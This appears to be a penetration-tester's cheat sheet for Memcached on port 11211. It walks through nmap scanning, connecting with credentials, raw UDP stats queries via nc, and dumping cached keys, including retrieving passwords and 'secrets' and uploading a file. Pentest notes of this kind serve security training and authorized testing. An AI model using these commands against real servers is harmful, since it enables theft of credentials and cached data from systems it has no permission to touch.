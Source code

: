# Memcached

Port: 11211 UDP

Tools: memcached-cli https://github.com/pd4d10/memcached-cli

Links:

https://www.hackingarticles.in/penetration-testing-on-memcached-server/

### Steps

#### 1) Nmap scan

    sudo nmap RHOST -p 11211 -sU -sS --script memcached-info

#### 2) Install tools

    npm install -g memcached-cli

    sudo apt install libmemcached-tools

#### 3) Authenticate

    memcached-cli USERNAME:PASSWORD@RHOST:11211

#### 4) Print stats of memcached port

    echo -en "\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n" | nc -q1 -u 127.0.0.1 11211

#### 5) Memcached commands

    stats items
    stats cachedump 1 0
    get link
    get file
    get user
    get passwd
    get account
    get username
    get password

### Alternate way to dump info from server

    memcdump --servers=RHOST

#### View secrets

    memccat --servers=RHOST fifth fourth third second first

#### Upload a file to the memcached server

    memccp --servers=RHOST file

